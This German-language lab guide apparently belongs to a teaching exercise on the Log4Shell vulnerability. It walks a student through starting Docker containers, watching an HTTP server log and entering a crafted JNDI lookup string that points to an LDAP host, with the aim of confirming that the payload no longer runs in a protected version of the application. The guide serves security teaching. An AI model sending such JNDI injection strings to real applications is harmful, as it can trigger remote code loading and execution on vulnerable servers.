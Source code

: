 ##### 1. Docker-compose

Der Versuch beginnt damit, dass die benötigten Docker-Container erstellt und gestartet werden.
Der folgende Befehl führt die docker-compose.yml Datei aus und lässt mit (-d: detached) die Container im Hintergrund laufen:

```bash 
$ docker-compose up -d
```

Mit dem folgenden Befehl kannst du überprüfen ob deine Container alle laufen und wie deren Container-Namen lauten:

```bash 
$ docker-compose ps
```

Hinweis: Falls du hier nicht weiterkommst, solltest du überprüfen, ob du dich im richtigen Ordner befindest.

##### 2. Anwendung im interaktiven Modus starten

Da nun die Container alle im Hintergrund laufen und wir eine Shell für unsere Anwendung 'TranslatorApp' benötigen, muss die Shell für die TranslatorApp mit folgendem Befehl gestartet werden:

```bash
$ docker exec -it <container_name> java -cp /root/dependencies/*:/root <Dateiname>
```

##### 3. Log des HTTPServers öffnen

Bevor es zum Versuch des Angriff kommt, solltest du die Log deines HTTP-Server-Containers starten. Hier wirst du sehen, dass der HTTP-Server auf port 8080 läuft. Sobald du nun im 4. Schritt versuchst den Exploit durchzuführen, kannst du hier sehen dass der HTTP-Server läuft, aber nie eine HTTP-Request von der Opferanwendung erhalten wird.

```bash
$ docker logs -f <container_name>
```

##### 4. Exploit

Um die Anwendung auf eine Sicherheitslücke zu untersuchen, gibst du nun den selben präparierten JNDI-Befehl wie im ersten Teil der Übung ein.

```bash
${jndi:ldap://<HOSTNAME_LDAP>:<PORTNUMMER_LDAP>/cn=BadCode,dc=src}
```

Falls du den präparierten JNDI-Befehl richtig eingegeben hast, sollte jetzt der Schadcode NICHT auf der Anwendung ausgeführt werden.

Hinweis: Den Hostnamen und den Port des LDAP-Servers findest du innerhalb einer Datei in den Verzeichnissen des Versuchs. 

##### 6. Log-File der Anwendung auslesen

Die Anwendung erstellt eine log-file, in der die Logs gespeichert werden. Diese log-file kannst du auslesen in dem du dich langsam mit dem Befehl 'ls' in die Verzeichnisse rantastest.
